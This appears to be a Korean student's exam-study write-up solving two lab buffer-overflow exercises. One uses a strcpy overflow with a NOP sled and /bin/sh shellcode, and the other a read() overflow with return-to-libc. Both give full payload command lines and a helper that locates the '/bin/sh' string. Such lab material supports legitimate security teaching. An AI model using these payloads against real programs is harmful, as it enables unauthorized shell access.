


# 1주차 시험 정리

## problem1.c
```c
#include <stdio.h>
#include <string.h> 

int main(int argc, char * argv[]) { 

	char buf[56]; 
	strcpy(buf, argv[1]); 
	
	printf("%s\n", buf); 
	memset(buf, 0, 60);	
}
```

## 공격 기법

Buffer Overflow를 이용한 RET-Sled를 사용할 것이다. 취약한 점은 `strcpy` 부분이다.

## 방법

### 페이로드

| buf | SFP | RET | NOP | Shellcode Address |
| :--: | :--: | :--: | :--: | :--: |
| Dummy | Dummy | NOP 중 후반 주소 | NOP | Shellcode Address |


`buf`의 크기를 구하기 위해 우선 main 함수 프롤로그가 끝나는 지점에 breakpoint를 건다. 사진은 그 위에 걸고 넘어간 것이다.

그 후에 32bit 시스템이니깐 rsp가 아닌 esp 안에 담겨 있는 주소를 확인한다. 이 주소는 Return Address 이다.

---


그 다음은 strcpy 함수의 밑 두번째 밑부분에 가서 buf의 주소를 확인한다. esp의 주소를 확인하면 된다. 

확인한 뒤 두 주소값을 비교해보니 buf의 크기는 56인 것을 알 수 있다.

---




그 다음 NOP들을 잔뜩 넣어 그 중간 값을 확인 한다. strcpy 함수 뒤를 breakpoint를 걸어 esp 값에 들어있는 주소의 값들을 확인한다. 그러면 \x90 이 들어간 것을 확인할 수 있고, 거의 끝나는 지점을 확인한다.

---


```shell
$  ./problem1 `python -c 'print "a"*60 + "\x24\xd9\xff\xff" +"\x90"*300 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

페이로드에 따라 명령어를 작성하면 위 사진과 같이 쉘을 딸 수 있다.

<br>

<br>

---

## problem2.c
```c
#include <stdio.h>
#include <unistd.h> 

int main(void) 
{
	char buf[64]; 
	read(0, buf, 100); 
	printf("%s\n",buf); 
	
	return 0 ;
}

```

## binsh_addr.c
```c
#include <stdio.h>
#include <string.h>

int main(void) {
        long addr = ; // System Function
        while(memcmp((void*)addr, "/bin/sh\x00", 8)) {
                addr++;
        }
        printf("0x%lx\n", addr);

        return 0;
}
```
---

## 공격기법

BOF를 이용한 RTL 방식을 사용할 것이다. 취약한 부분은 `read` 함수이다.

### 페이로드

| buf + SFP | RET | 이전 EIP | Dummy |
| :--: | :--: | :--: | :--: |
| Dummy | system Address | Dummy | /bin/sh Address |
---

## 방법


코드의 프롤로그 끝나는 지점과 strcpy 뒤 lea 명령어가 사용되는 지점을 확인해 각각 esp와 eax가 담고 있는 주소를 확인해서 `buf`의 크기를 확인한다.

---


`p system` 을 이용해 system 함수의 주소를 확인한다.

---



`./binsh_addr`을 실행해 system 함수 안에서 `/bin/sh` 주소를 찾는다. 그 이유는 프로그램 안에 없고 system 함수가 갖고 있기 때문이다.

---


페이로드에 따라 작성한 명령어를 입력하면 위 사진과 같이 쉘을 딸 수 있다.

```shell
$ (python -c 'print "a"*68 + "\x20\x04\xe2\xf7" +"a"*4+ "\x52\xa3\xf6\xf7"';cat) | ./problem2
```